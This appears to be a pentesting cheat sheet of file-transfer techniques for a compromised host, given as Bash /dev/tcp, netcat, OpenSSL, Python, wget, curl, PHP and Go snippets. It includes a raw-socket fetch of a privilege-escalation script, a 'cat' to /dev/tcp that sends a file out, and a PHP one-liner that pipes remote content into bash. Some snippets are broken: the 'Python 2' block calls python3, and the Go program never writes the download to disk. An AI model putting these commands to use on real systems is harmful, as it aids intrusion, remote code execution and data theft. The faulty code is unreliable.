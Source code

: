## Bash

```bash
# Connect to Target's Webserver
exec 3<>/dev/tcp/10.10.10.32/80

# HTTP GET Request
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

Print the Response
cat <&3
```

## Bash (TCP)

```bash
cat < <file> > /dev/tcp/<ip>/<port>

# Escucha
nc -nlvp <port> > <file>
```

## OpenSSL


```bash
# Create certificate
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

# Stand up server
openssl s_server -quiet -accept <port> -cert certificate.pem -key key.pem < <file>

# Download file
openssl s_client -connect <ip>:<port> -quiet > <file>
```

## Python 3

```python
~ python3
>> import urllib.request
>> urllib.request.urlretrieve("http://<ip>/<file>", "<output>")
````

## Python 2

```python
~ python3
>> import urllib
>> urllib.urlretrieve ("http://<ip>/<file>", "<output>")
````

## Wget

```bash
wget http://<ip>/<file> 
wget http://<ip>/<file> -O <file>
```

## Curl

```bash
curl -o <output> http://<ip>/<file>
```

## PHP

### File_get_contents()

```bash
php -r '$file = file_get_contents("<ip>/<file>"); file_put_contents("<file>",$file);'
```

### Fopen()

```bash
php -r 'const BUFFER = 1024; $fremote = 
fopen("http://<ip>/<file>", "rb"); $flocal = fopen("<output>", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

### Php curl

```bash
php -r '$rfile = "http://<ip>/<file>"; $lfile = "<output>"; $fp = fopen($lfile, "w+"); $ch = curl_init($rfile); curl_setopt($ch, CURLOPT_FILE, $fp); curl_setopt($ch, CURLOPT_TIMEOUT, 20); curl_exec($ch);'
```

```bash
 php -r '$lines = @file("http://<ip>/<file>"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

## GO

```go
package main

import (
	 "os"
     "io"
     "net/http"
)

func main() {
     lfile, err := os.Create("<file>")
     _ = err
     defer lfile.Close()

     rfile := "http://<ip><file>"
     response, err := http.Get(rfile)
     defer response.Body.Close()
}
```
